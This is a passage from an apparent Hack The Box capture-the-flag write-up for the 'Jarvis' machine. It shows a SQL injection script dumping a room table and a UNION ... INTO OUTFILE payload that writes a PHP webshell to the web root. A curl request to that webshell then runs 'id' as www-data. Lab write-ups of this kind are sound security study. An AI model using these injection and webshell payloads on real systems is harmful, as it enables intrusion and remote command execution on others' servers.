 > Note: Hex `0x7c` is character `|`.

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:05:03(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,GROUP_CONCAT(cod,0x7c,name,0x7c,price,0x7c,descrip,0x7c,star,0x7c,image,0x7c,mini),NULL,NULL,NULL,NULL,NULL FROM room LIMIT 1 OFFSET 0-- -
[+] Payload result: 1|Superior Family Room|270|Superior room, perfect for luxury families.
Big room with a lot of extras||room-6.jpg| Perfect for traveling couples Breakfast included Price does not include VAT & services fee,2|Suite|149|Suite room is perfect||room-1.jpg| Only 10 rooms are available Breakfast included Price does not include VAT & services fee,3|Double Room|199|Perfect room for couples <3|
$

/ per night


Go to book!

[*] Payload: 7 UNION ALL SELECT NULL,GROUP_CONCAT(cod,0x7c,name,0x7c,price,0x7c,descrip,0x7c,star,0x7c,image,0x7c,mini),NULL,NULL,NULL,NULL,NULL FROM room LIMIT 1 OFFSET 1-- -
[-] No result :(
[-] Exploit failed... Abort!!
```

```
1|Superior Family Room|270|Superior room, perfect for luxury families.
Big room with a lot of extras||room-6.jpg| Perfect for traveling couples Breakfast included Price does not include VAT & services fee,
2|Suite|149|Suite room is perfect||room-1.jpg| Only 10 rooms are available Breakfast included Price does not include VAT & services fee,
3|Double Room|199|Perfect room for couples <3|
$

/ per night


Go to book!
```

Hmm... Nothing weird...

**Maybe we can write a PHP webshell via `Into outfile`?**
```
7 UNION SELECT NULL,"<?php system($_GET['cmd']); ?>",NULL,NULL,NULL,NULL,NULL into outfile "/var/www/html/webshell.php"-- -
```

> Note: The above payload is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#into-outfile-method).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728201013.png)

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:10:16(HKT)]
└> curl http://jarvis.htb/webshell.php --get --data-urlencode "cmd=id"
\N	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	\N	\N	\N	\N	\N
```
